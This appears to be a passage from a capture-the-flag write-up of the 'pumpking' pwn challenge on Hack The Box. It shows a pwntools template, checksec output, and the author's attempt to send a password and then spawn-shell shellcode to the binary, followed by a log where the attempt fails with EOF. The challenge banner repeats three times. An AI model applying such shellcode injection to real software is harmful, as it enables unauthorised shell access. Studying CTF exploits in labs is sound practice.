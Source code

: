 ```Python

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      PIE enabled
# RWX:      Has RWX segments
# RUNPATH:  b'./glibc/'

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.interactive()
```


And now I write the following lines in the lines after `io = start()`:

```Python
shellcode = asm(shellcraft.sh())

print(f"Len shellcode: {len(shellcode)}")
io.sendlineafter(b'kids: ', b'pumpk1ngRulez')

io.sendlineafter(b'>> ', shellcode)
```

But I got a error
```shell
magor$ python solve_pumpking.py LOCAL
[*] '/HTB/ctf/2022-boo/2-pwn/pwn_pumpking/challenge/pumpking'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
    RUNPATH:  b'./glibc/'
[+] Starting local process '/HTB/ctf/2022-boo/2-pwn/pwn_pumpking/challenge/pumpking': pid 5239
Len shellcode: 48
[*] Switching to interactive mode
\x00[*] Got EOF while reading in interactive
```


[Pumpkgin]: Welcome naughty kid! This time of the year, I will make your wish come true! Wish for everything, even for tha flag!
[Pumpkgin]: Welcome naughty kid! This time of the year, I will make your wish come true! Wish for everything, even for tha flag!
[Pumpkgin]: Welcome naughty kid! This time of the year, I will make your wish come true! Wish for everything, even for tha flag!